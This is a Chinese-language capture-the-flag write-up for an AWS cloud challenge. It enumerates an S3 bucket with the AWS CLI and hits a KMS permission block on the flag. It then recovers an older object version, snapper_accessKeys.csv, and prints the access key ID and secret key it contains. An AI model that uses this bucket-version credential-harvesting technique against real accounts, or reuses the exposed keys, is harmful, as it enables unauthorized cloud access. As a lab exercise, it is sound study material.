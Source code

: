 enumerate-iam 并没有枚举出有用的权限，神奇了，按理说是可以的，eson 师傅说比赛时可以正常枚举权限，可能是 After Party 环境改了啥东西

```bash
> aws s3 ls 

An error occurred (AccessDenied) when calling the ListBuckets operation: Access Denied
```

先继续，假设 ls 到了 vault11-reports 桶，里面有个 flag.txt

```bash
> aws s3 ls --recursive s3://vault11-reports
2024-05-07 22:07:25         43 flag/flag.txt
```

但拿不下来

```bash
> aws s3 cp s3://vault11-reports/flag/flag.txt .

download failed: s3://vault11-reports/flag/flag.txt to ./flag.txt An error occurred (AccessDenied) when calling the GetObject operation: User: arn:aws:iam::532587168180:user/kstone-dev is not authorized to perform: kms:Decrypt on resource: arn:aws:kms:us-east-1:532587168180:key/d24c4a28-7014-4d49-a6c2-c4f86a68945d because no identity-based policy allows the kms:Decrypt action
```

由于桶里没有其他内容，可以考虑看看桶有没有启用版本控制

```bash
> aws s3api list-object-versions --bucket vault11-reports

{
    "ETag": "\"d6e420ebcdf3c9a7104b7f8a2e394749\"",
    "Size": 94,
    "StorageClass": "STANDARD",
    "Key": "snapper_accessKeys.csv",
    "VersionId": "O_Ybx9qvdhhJgdcuaeQNBXy9weknoyIi",
    "IsLatest": false,
    "LastModified": "2024-05-07T14:07:25+00:00",
    "Owner": {
        "DisplayName": "cloudchalls",
        "ID": "68fd0ca8813f6724859c6784d15f5d36a5dbb1965be025a4269b571ee1243500"
    }
}
```

发现一个 csv 文件，拿下来

```bash
> aws s3api get-object --bucket vault11-reports --key snapper_accessKeys.csv --version-id O_Ybx9qvdhhJgdcuaeQNBXy9weknoyIi snapper_accessKeys.csv
```

发现一个 AKSK

| Access key ID | Secret access key |
| --- | --- |
| AKIAXYAFLIG2CSJQ4R5Y | BGTlUZBVjhdydUk9AMMG+X5b+1fzsvdstY8xVet6 |

